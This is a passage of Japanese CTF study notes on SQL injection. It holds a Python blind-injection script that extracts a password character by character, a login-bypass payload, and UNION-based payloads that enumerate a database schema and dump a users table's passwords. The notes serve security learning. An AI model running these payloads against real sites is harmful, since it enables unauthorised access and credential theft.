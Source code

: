 ```python
for i in range(1,10):
    l = 97 
    r = 123
    # l = 0
    # r = 100
    prev_mid = -1
    mid = int((l+r)/2)
    while(prev_mid!=mid):
        cmd = "(Select unicode(substr(password,{},{})) from userandpassword limit 1 offset 0) > {}".format(i,i,mid)
        #cmd = "(Select length(password) from userandpassword limit 1 offset 1) > {}".format(mid)
        val = inject(cmd)
        if(val):
            l = mid
        else:
            r=mid
        prev_mid=mid
        mid = int((l+r)/2)

    flag+=chr(mid+1)
    print(flag)
```
## login bypass (TJCTF 2020 Login Sequel)
https://github.com/CsEnox/TJCTFWriteups/blob/master/SequelLogin.md  
- **entrypoint**  
loginページがあるらしい。  
- **payload**  
`admin'/*`でログインするとフラグが出たらしい。  
## union query / Stored SQL Injection (HackPack CTF 2020 Online Birthday Party)
https://www.hamayanhamayan.com/entry/2020/04/30/104927  
- **entrypoint**  
同じ誕生日のユーザーを検索してくれるサイトらしい。  
`/index.php` トップページ  
`/account.php` ログイン、新規登録ができる  
`/profile.php` ログイン後に出るページ  
新規登録するときに入力する誕生日を使ってSQLを実行しているはずなのでここにSQLInjectionできるか試す。  
`'`を入力するとErrorを返してくれるのでSQLInjection可能とわかる。  
`a'#`で成功したのでMySQL。  
`a' UNION SELECT DISTINCT TABLE_NAME, null from INFORMATION_SCHEMA.COLUMNS #`でテーブル一覧を取得できる。  
```txt
CHARACTER_SETS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEY_COLUMN_USAGE,OPTIMIZER_TRACE,PARAMETERS,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,TABLES,TABLESPACES,TABLE_CONSTRAINTS,TABLE_PRIVILEGES,TRIGGERS,USER_PRIVILEGES,VIEWS,INNODB_LOCKS,INNODB_TRX,INNODB_SYS_DATAFILES,INNODB_FT_CONFIG,INNODB_SYS_VIRTUAL,INNODB_CMP,INNODB_FT_BEING_DELETED,INNODB_CMP_RESET,INNODB_CMP_PER_INDEX,INNODB_CMPMEM_RESET,INNODB_FT_DELETED,INNODB_BUFFER_PAGE_LRU,INNODB_LOCK_WAITS,INNODB_TEMP_TABLE_INFO,INNODB_SYS_INDEXES,INNODB_SYS_TABLES,INNODB_SYS_FIELDS,INNODB_CMP_PER_INDEX_RESET,INNODB_BUFFER_PAGE,INNODB_FT_DEFAULT_STOPWORD,INNODB_FT_INDEX_TABLE,INNODB_FT_INDEX_CACHE,INNODB_SYS_TABLESPACES,INNODB_METRICS,INNODB_SYS_FOREIGN_COLS,INNODB_CMPMEM,INNODB_BUFFER_POOL_STATS,INNODB_SYS_COLUMNS,INNODB_SYS_FOREIGN,INNODB_SYS_TABLESTATS,users
```
usersテーブルを調べることにして、`a' UNION SELECT COLUMN_NAME, null FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users' #`でカラム一覧を取得する。  
```txt
id,username,password,bday
```
`a' UNION SELECT password, bday FROM users #`でFlagが得られたらしい。  
- **payload**  
`a' UNION SELECT password, bday FROM users #`